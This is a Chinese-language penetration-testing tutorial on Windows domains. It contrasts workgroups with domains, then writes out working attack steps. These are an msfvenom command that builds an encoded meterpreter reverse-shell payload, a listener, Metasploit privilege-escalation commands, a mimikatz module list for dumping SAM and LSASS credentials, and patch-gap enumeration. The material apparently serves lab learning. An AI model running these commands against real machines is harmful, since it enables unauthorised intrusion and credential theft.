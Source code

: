 ```yaml
---
title: 域渗透入门
categories:
- WindowDomain
tags:
- WindowDomain
---
```

域渗透入门
===

首先搭一个域环境

## 录制的视频教程
- [域渗透原理篇](https://www.bilibili.com/video/BV1Cf4y1U73y/)
- [域渗透实践篇（一）]()

## 工作组和域的区别
1. 大小
工作组比较小，不超过20台。域用在比较大的网络，成百上千台。
2. 拓扑图
工作组中，所有机器的地位是平等的，一台计算机可以自由的加入或退出一个工作组。
3. 验证方式
在工作组中，用户名、密码存放在本地计算机。如果要登入其他计算机，必须提供用户名，密码；在域中，有一台域控（DC）服务器，其他计算机都要通过DC验证才能加入域。有域权限，可以登入任何域内计算机，无需知道计算机的账号也可以登入。
4. 网络
工作组计算机必须在同一个子网中；域的计算机可以在不同的本地网络中。

## 获得一个shell
```
生成恶意载荷
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=6678 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
---
设置监听器
handler -H 192.168.1.4 -P 6678 -p windows/meterpreter/reverse_tcp
---
反弹shell成功后，进行提权
sysinfo 		#查看windows是32位/64位
migrate         #如果是64位置，需要migrate到64位进程
search suggester
use 0
set session 1
run             #查找可以利用的exp
use exploit/windows/local/always_install_elevated  #使用提权exp
set session 1
```
## meterpreter mimikatz模块
```
      crypto	- Cryptographie et certificats
        hash	- Hash
      system	- Gestion syst�me
     process	- Manipulation des processus
      thread	- Manipulation des threads
     service	- Manipulation des services
   privilege	- Manipulation des privil�ges
      handle	- Manipulation des handles
 impersonate	- Manipulation tokens d'acc�s
     winmine	- Manipulation du d�mineur
 minesweeper	- Manipulation du d�mineur 7
       nogpo	- Anti-gpo et patchs divers
     samdump	- Dump de SAM   #导出sam密码
      inject	- Injecteur de librairies
          ts	- Terminal Server
      divers	- Fonctions diverses n'ayant pas encore assez de corps pour avoir leurs propres module
    sekurlsa	- Dump des sessions courantes par providers LSASS
         efs	- Manipulations EFS
```

## 信息搜集-补丁查找
```
shell
cd C:\Windows\Temp
systeminfo > info.txt

---
pip install xlrd 
pip install xlrd -upgrade
python .\windows-exploit-suggester.py --update
python .\windows-exploit-suggester.py -d  2020-04-16-mssb.xls -i info.txt
```